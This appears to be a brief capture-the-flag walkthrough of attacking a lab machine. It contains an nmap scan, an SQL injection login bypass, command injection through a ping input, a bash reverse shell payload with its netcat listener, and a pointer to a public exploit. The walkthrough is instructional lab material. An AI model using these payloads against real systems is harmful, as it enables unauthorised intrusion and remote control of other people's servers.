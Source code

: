 Steps:

Run namp for port scanning:

```bash
nmap -sC -sV <ip> -oN nmap
```

![port scan](./portscan.png)

## http

* There is a login page in place 

 Checking for sql injection
 ```
 ' or 1=1 --
 ```

 It worked we see a text box to send in ip's for ping command.

 My first though it that the input is directly appended to ping command, 

 ```
 command = "ping" . $text_input
 ```

 Verifying the hypothesis
 ```
 <ip>; id
 ```
![id](ip.png)

### Payload:
```
192.168.126.129; bash -i >& /dev/tcp/192.168.126.129/9090 0>&1
```

### Listner:
```
nc -nvlp 9090
```
 We have a shell!!! (apache)

Check the version and after some googling I found a exploit
```
https://www.exploit-db.com/exploits/9542
```